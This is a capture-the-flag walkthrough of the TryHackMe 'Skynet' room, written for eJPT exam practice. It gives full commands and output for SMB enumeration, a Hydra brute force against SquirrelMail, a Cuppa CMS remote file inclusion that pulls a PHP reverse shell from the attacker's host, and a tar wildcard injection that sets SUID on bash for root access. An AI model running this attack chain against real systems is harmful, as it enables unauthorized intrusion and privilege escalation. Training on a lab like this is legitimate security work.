



## Summary

**Skynet** is the eighth machine of the _Road to eJPTv2_ series and one of the most complete in the path. It combines SMB enumeration, brute force against a webmail, exploitation of a CMS with Remote File Inclusion, and a classic privilege escalation based on `tar` wildcard injection in a cron job.

A chained attack flow where each phase depends on the previous one — exactly the kind of reasoning the eJPT evaluates.

| Attribute      | Value                                            |
| -------------- | ------------------------------------------------ |
| **Platform**   | TryHackMe                                        |
| **Difficulty** | Medium                                           |
| **OS**         | Linux (Ubuntu)                                   |
| **Room**       | [Skynet](https://tryhackme.com/room/skynet)      |
| **Skills**     | SMB Enum, Brute Force, RFI, Tar Wildcard PrivEsc |

### 🎥 Video Walkthrough



> If you prefer to follow the walkthrough step by step, keep reading. The video covers the same process in visual format.

### Tools Used

- `nmap` — port scanning and version detection
- `smbmap` / `smbclient` — SMB share enumeration
- `gobuster` — web directory fuzzing
- `hydra` — HTTP form brute force
- `searchsploit` — local exploit search
- `netcat` — reverse shell listener
- `python3` — shell stabilization

### Solution Overview

1. **Recon:** nmap reveals SMB, HTTP and mail services. Anonymous SMB exposes a password wordlist.
2. **Web enumeration:** gobuster finds `/squirrelmail`.
3. **Brute force:** Hydra uses the SMB wordlist to compromise `milesdyson`'s webmail.
4. **Email pivot:** The inbox contains milesdyson's SMB password.
5. **Authenticated SMB:** The personal share reveals a hidden web directory.
6. **Cuppa CMS:** A second gobuster run finds an admin panel with a known RFI vulnerability.
7. **Reverse shell:** RFI executes a PHP payload hosted on our machine.
8. **User flag:** Access as `www-data` allows reading `/home/milesdyson/user.txt`.
9. **PrivEsc:** `backup.sh` runs `tar *` as root via cron — we exploit the wildcard to set SUID on `/bin/bash`.

---

## Reconnaissance

### Ping

We verify connectivity and identify the OS by TTL:

```bash
ping -c 1 10.66.170.216
```

```
64 bytes from 10.66.170.216: icmp_seq=1 ttl=62 time=64.1 ms
```

TTL 62 → Linux (original value is 64, decremented through network hops).

### Nmap — Port Scan

```bash
nmap 10.66.170.216 -n -Pn -sS -p- --open --min-rate=5000 -oG allTCPports
```

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
```

Interesting attack surface: HTTP, SMB (139/445) and mail services (110/143).

### Nmap — Versions and Scripts

```bash
nmap 10.66.170.216 -n -Pn -sS -p22,80,110,139,143,445 -sCV --min-rate=5000 -oN skynetscann.txt
```

Key findings:

- `Apache 2.4.18` on port 80
- `OpenSSH 7.2p2` on port 22
- `Samba 4.3.11` on ports 139/445 — workgroup: WORKGROUP
- Mail: `Dovecot pop3d` / `imapd`

### SMB — smbmap

We enumerate shared resources without credentials:

```bash
smbmap -H 10.66.170.216
```

```
Disk              Permissions   Comment
----              -----------   -------
print$            NO ACCESS     Printer Drivers
anonymous         READ ONLY     Skynet Anonymous Share
milesdyson        NO ACCESS     Miles Dyson Personal Share
IPC$              NO ACCESS     IPC Service
```

Two important findings: the `anonymous` share is accessible without credentials, and a user named `milesdyson` exists.

### SMB — smbclient (anonymous)

```bash
smbclient //10.66.170.216/anonymous -N
```

```
smb: \> dir
  attention.txt
  logs/
```

We download the contents of the `logs` directory:

```bash
smb: \> cd logs
smb: \logs\> dir
  log1.txt
  log2.txt
  log3.txt
```

`log1.txt` contains a list of potential passwords — our wordlist for the brute force.

### Web Fuzzing — gobuster

```bash
gobuster dir -u http://10.66.170.216 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,css,xml,bak
```

```
/admin         (Status: 301)
/squirrelmail  (Status: 301)
```

We find `/squirrelmail` — a webmail application. The combination of a known username (`milesdyson`) + the SMB wordlist is perfect for a brute force attack.


---

## Exploitation

### Brute Force — Hydra against SquirrelMail

SquirrelMail uses a POST form. We configure Hydra with the correct parameters:

```bash
hydra -l milesdyson -P log1.txt 10.66.170.216 http-post-form \
"/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect."
```

```
[80][http-post-form] host: 10.66.170.216   login: milesdyson   password: cyborg007haloterminator
```

Credentials obtained: `milesdyson:cyborg007haloterminator`



### SquirrelMail — Reading the Inbox

We access the webmail at `http://10.66.170.216/squirrelmail/src/login.php`:



The inbox contains 3 emails. The most relevant is from `skynet@skynet` with subject **"Samba Password reset"**:

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

New SMB password: `)s{A&2Z=F^n_E.B\``

### SMB — Authenticated Access as milesdyson

```bash
smbclient //10.66.170.216/milesdyson -U milesdyson
Password: )s{A&2Z=F^n_E.B`
```

```
smb: \> dir
  Improving Deep Neural Networks.pdf
  Natural Language Processing-Building Sequence Models.pdf
  Convolutional Neural Networks-CNN.pdf
  notes/
  Neural Networks and Deep Learning.pdf
  Structuring your Machine Learning Project.pdf
```

We navigate to `notes/` and download `important.txt`:

```bash
smb: \notes\> get important.txt
```

```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

Hidden directory revealed: `/45kra24zxs28v3yd`

### Second Fuzzing Run — Cuppa CMS

We fuzz the hidden directory:

```bash
gobuster dir -u http://10.66.170.216/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,css,xml,bak
```

```
/administrator  (Status: 301)
```

At `http://10.66.170.216/45kra24zxs28v3yd/administrator/` we find a **Cuppa CMS** admin panel.



### Searchsploit — Cuppa CMS RFI Vulnerability

```bash
searchsploit cuppa cms
```

```
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion  | php/webapps/25971.txt
```

```bash
searchsploit -m 25971
```

The exploit describes a **Remote File Inclusion (RFI)** vulnerability in the `urlConfig` parameter of `alertConfigField.php`. It allows loading a remote PHP file and executing it on the server.

### Reverse Shell via RFI

We prepare a PHP reverse shell payload (e.g., PentestMonkey's) and host it on our machine with Python:

```bash
python3 -m http.server 80
```

We set up a netcat listener:

```bash
nc -lvnp 4444
```

We trigger the RFI pointing to our server:

```
http://10.66.170.216/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<YOUR_IP>/rev.php
```

We receive the connection as `www-data`.

---

## Post-Exploitation

### Shell Stabilization

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 48 cols 184
```

### User Flag

```bash
www-data@skynet:/home/milesdyson$ cat user.txt
7ce5c2109a40f958099283600a9ae807
```

---

## Privilege Escalation

### Enumeration — backup.sh

Exploring milesdyson's home directory we find the `backups` folder:

```bash
www-data@skynet:/home/milesdyson/backups$ cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

This script runs `tar` with a wildcard (`*`) in `/var/www/html`. The `backup.tgz` file updates periodically, indicating it runs as a **root cron job**.

### Exploitation — Tar Wildcard

`tar` accepts arguments starting with `--` if it finds them as filenames in the directory. This lets us inject arbitrary options into `tar` by creating files with special names.

**Step 1:** Create a script that sets SUID on `/bin/bash`:

```bash
echo -e '#!/bin/bash\nchmod +s /bin/bash' > /var/www/html/root_shell.sh
```

**Step 2:** Create the "trap" files that will be interpreted as `tar` flags:

```bash
touch /var/www/html/--checkpoint=1
touch /var/www/html/"--checkpoint-action=exec=sh root_shell.sh"
```

When cron runs `tar cf backup.tgz *`, the wildcard expands and includes these files as arguments:

```bash
tar cf backup.tgz --checkpoint=1 --checkpoint-action=exec=sh root_shell.sh ...
```

**Step 3:** Wait for cron to run and verify:

```bash
www-data@skynet:/home/milesdyson/backups$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

The SUID bit is active. We escalate to root:

```bash
/bin/bash -p
bash-4.3# whoami
root
```

### Root Flag

```bash
bash-4.3# cat /root/root.txt
```

---

## Lessons Learned

- **Anonymous SMB can be a gold mine** — A publicly readable share containing a password wordlist was the entry point for compromising everything else. Always enumerate SMB exhaustively.
- **Pivoting between services is key** — Webmail credentials → SMB password → hidden directory → CMS. Each service feeds the next. In a real pentest, this kind of chaining is very common.
- **Internal files reveal hidden attack surface** — The `important.txt` from SMB revealed a directory that would never have appeared in a standard external fuzzing run.
- **RFI requires network access between servers** — To exploit Cuppa CMS's RFI, the victim server needs to reach our IP. Always verify connectivity before firing the exploit.
- **Tar wildcard is a classic privesc** — Any script that runs `tar *`, `zip *`, `rsync *`, etc. as root in a writable directory is vulnerable. Look for cron jobs with wildcards during post-exploitation.

### For the eJPT

This machine directly covers several exam objectives:

| Concept                      | eJPT Relevance                                    |
| ---------------------------- | ------------------------------------------------- |
| SMB Enumeration              | Core technique in mixed Windows/Linux networks    |
| HTTP Brute Force             | Common scenario in web applications               |
| Remote File Inclusion        | Classic web vulnerability in the syllabus         |
| Cron + Wildcard PrivEsc      | Realistic privesc without kernel exploits         |

**Approximate completion time:** 60-90 minutes.

---

## References

- [Skynet — TryHackMe](https://tryhackme.com/room/skynet)
- [Cuppa CMS RFI — Exploit-DB 25971](https://www.exploit-db.com/exploits/25971)
- [Tar Wildcard Injection — GTFOBins](https://gtfobins.github.io/gtfobins/tar/)
- [PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)
- [smbmap](https://github.com/ShawnDEvans/smbmap)
